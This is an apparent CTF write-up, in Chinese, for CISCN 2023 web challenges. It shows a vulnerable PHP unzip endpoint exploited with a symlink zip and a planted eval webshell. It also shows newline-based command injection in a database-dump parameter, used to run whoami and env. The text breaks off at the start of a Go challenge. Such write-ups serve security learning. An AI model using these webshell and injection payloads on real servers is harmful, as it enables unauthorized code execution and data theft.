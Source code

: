 # CISCN2023初赛


wp：[https://mp.weixin.qq.com/s/2TDV2L-o1MlbYU0PSjb65Q](https://mp.weixin.qq.com/s/2TDV2L-o1MlbYU0PSjb65Q)

## Web
### unzip
```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};

//only this!
```
构造软连接：
```
ln -s /var/www/html test
zip --symlinks test.zip ./*
```
上传解压后/var/www/html指向test目录
构造木马：
```
mkdir test
echo "<?php @eval($_GET['cmd']);" > test/cmd.php
zip -r test1.zip ./*
```
上传解压后可访问test目录下的木马
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689256319986-8ffccc61-30f9-4469-a649-c24041c88a05.png#averageHue=%237e7d7d&clientId=ub1754b14-d6ff-4&from=paste&height=843&id=ua4d660b7&originHeight=843&originWidth=1291&originalType=binary&ratio=1&rotation=0&showTitle=false&size=96486&status=done&style=none&taskId=u0b213b80-c18b-4652-872f-37154eca2d1&title=&width=1291)
### dumpit
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267210426-a2c9896f-5a67-4518-b377-51cf6fe710df.png#averageHue=%231f1f1f&clientId=ube04f257-9777-4&from=paste&id=u1d17d523&originHeight=442&originWidth=481&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u200d73d2-6493-42c3-9822-a16fe7a2af8&title=)
过滤的符号： 
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267210383-74ce8b2b-5294-45e3-80f3-17a7b5f0294a.png#averageHue=%2334363a&clientId=ube04f257-9777-4&from=paste&id=u37519b8f&originHeight=224&originWidth=688&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=uda6bbae0-f7f9-4aa0-a5d9-bf35d3eedab&title=)
/?db=bibin&table_2_dump=%00
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267210347-a2496d2e-3264-4620-b108-75754da933d5.png#averageHue=%23f1f0f0&clientId=ube04f257-9777-4&from=paste&id=uc2f09860&originHeight=191&originWidth=1864&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u173c0853-edea-4592-a65d-d73246a42f5&title=)
/?db=bibin&table_2_dump=%0a
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267210409-88d01087-8090-4f7b-ba42-534d37006b97.png#averageHue=%23e8e8e8&clientId=ube04f257-9777-4&from=paste&id=udb4598d9&originHeight=248&originWidth=1888&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u2d7326ab-d3cb-4ecf-87a1-ad40a37a29b&title=)
发现%0a闭合能执行命令，在env发现flag
/?db=q&table_2_dump=%0awhoami%0a 
/?db=q&table_2_dump=%0env%0a //环境变量
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1685267210856-609c0586-4edb-472d-ab0c-604324d514bc.png#averageHue=%23e3e3e3&clientId=ube04f257-9777-4&from=paste&id=u484038c4&originHeight=341&originWidth=1913&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=ua75c17ef-ae68-43f4-8821-fa989d3383c&title=)
### go_session
[https://un1novvn.github.io/2023/05/29/ciscn2023/](https://un1novvn.github.io/2023/05/29/ciscn2023/)
[https://ctf.njupt.edu.cn/archives/898#go_session](https://ctf.njupt.edu.cn/archives/898#go_session)
看官方文档 pongo
环境
route.go
```php
package route

import (
```